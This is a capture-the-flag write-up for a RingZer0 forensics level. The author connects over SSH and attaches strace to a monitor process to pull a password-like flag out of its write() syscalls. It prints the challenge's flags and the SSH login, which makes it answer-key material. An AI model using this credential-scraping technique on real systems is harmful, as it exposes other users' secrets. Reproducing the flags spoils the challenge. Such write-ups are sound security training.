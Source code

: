 # Level 7

```
sshpass -p FLAG-lRGLKGh2895wIAoOvcBbgk4oL ssh neo@challenges.ringzer0team.com -p 10091
```

Let's have a look at running processes:

```
neo@forensics:~$ ps fl -u neo  
F   UID   PID  PPID PRI  NI    VSZ   RSS WCHAN  STAT TTY        TIME COMMAND
4  1003 32505 32503  20   0   3944   256 -      Ss   ?          0:01 /bin/monitor
4  1003 32073 32071  20   0   3944   256 -      Ss   ?          0:01 /bin/monitor
4  1003 31844 31842  20   0   3944   256 -      Ss   ?          0:04 /bin/monitor
4  1003 31624 31622  20   0   3944   256 -      Ss   ?          0:03 /bin/monitor
4  1003 31471 31469  20   0   3944   256 -      Ss   ?          0:02 /bin/monitor
4  1003 31078 31076  20   0   3944   256 -      Ss   ?          0:02 /bin/monitor
4  1003 30040 30038  20   0   3944   256 -      Ss   ?          0:02 /bin/monitor
......
```

Since we can read /bin/monitor as user neo (and /bin/monitor was started using sudo neo -c /bin/monitor) we should be able to trace its syscalls (since we are allowed to attach to a process running as user neo):

```
neo@forensics:~$ strace -p32505
Process 32505 attached - interrupt to quit
restart_syscall(<... resuming interrupted call ...>) = 0
write(4294967295, "telnet 127.0.0.1 23\n", 20) = -1 EBADF (Bad file descriptor)
write(4294967295, "user\n", 5)          = -1 EBADF (Bad file descriptor)
write(4294967295, "FLAG-a4UVY5HJQO5ddLc5wtBps48A3\n", 31) = -1 EBADF (Bad file descriptor)
write(4294967295, "get-cpuinfo\n", 12)  = -1 EBADF (Bad file descriptor)
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({10, 0},
```

Bingo! The flag is FLAG-a4UVY5HJQO5ddLc5wtBps48A3.
